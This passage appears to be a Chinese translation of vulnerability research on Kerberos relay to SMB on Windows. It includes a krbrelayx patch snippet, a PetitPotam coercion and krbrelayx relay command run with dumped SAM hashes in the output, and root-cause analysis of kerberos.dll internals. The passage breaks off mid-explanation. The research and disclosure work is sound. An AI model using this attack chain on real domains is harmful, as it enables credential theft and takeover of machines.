   
lsasrv!NegpIsLoopback  
  
```
File: krbrelayx/lib/servers/smbrelayserver.py156: blob['tokenOid'] = '1.3.6.1.5.5.2'157: blob['innerContextToken']['mechTypes'].extend([MechType(TypesMech['KRB5 - Kerberos 5']),158: MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),159: MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])])
```  
  
  
通过应用此补丁，中继也能正常工作！  
  
```
$ PetitPotam.py -u loki -p aloki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL[-] Sending EfsRpcEncryptFileSrv![+] Got expected ERROR_BAD_NETPATH exception!![+] Attack worked!# krbrelayx.py -t SRV1.ASGARD.LOCAL -smb2support[*] Servers started, waiting for connections[*] SMBD: Received connection from192.168.56.13[*] Service RemoteRegistry isin stopped state[*] Starting service RemoteRegistry[*] Target system bootKey: 0x2969778d862ac2a6df59a263a16adbd1[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04e87eb3e0d31f79a461386dfe9c7500:::user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::[*] Done dumping SAM hashes for host: srv1.asgard.local
```  
  
  
我们采用了相同的调查技术：首先分析网络捕获数据，以了解发生了什么。然而，捕获的数据并未发现任何异常。通过强制身份验证，  
AP-REQ  
服务在检索和中继帐户  
cifs/srv1  
时会触发一个错误  
SRV1$  
，这正是 Kerberos 强制身份验证所期望的。同样，转储 SAM 注册表配置单元的能力让我们感到困扰，因为计算机帐户（在本例中是中继身份）在其关联的计算机上没有特权，并且 Kerberos 协议中没有像 NTLM那样内置本地模式。  
  
根本原因  
  
当 SMB 客户端协商使用 Kerberos 而非 NTLM 时，  
kerberos!SpInitLsaModeContext  
将调用 函数。该函数调用  
kerberos!KerbBuildApRequest  
，然后调用  
kerberos!KerbMakeKeyEx  
创建一个子密钥，该子密钥是客户端和服务器在身份验证阶段后可选使用的加密密钥。该子密钥将插入到客户端发送的 的身份验证器部分中AP-REQ。如果使用 AES（默认设置），则通过调用 随机生成子密钥  
cryptdll!aes256RandomKey  
。  
  
随后，如果当前用户是  
NT AUTHORITY\SYSTEM  
或  
NT AUTHORITY\NETWORK SERVICE  
，则  
kerberos!KerbCreateSKeyEntry  
调用该函数：  
  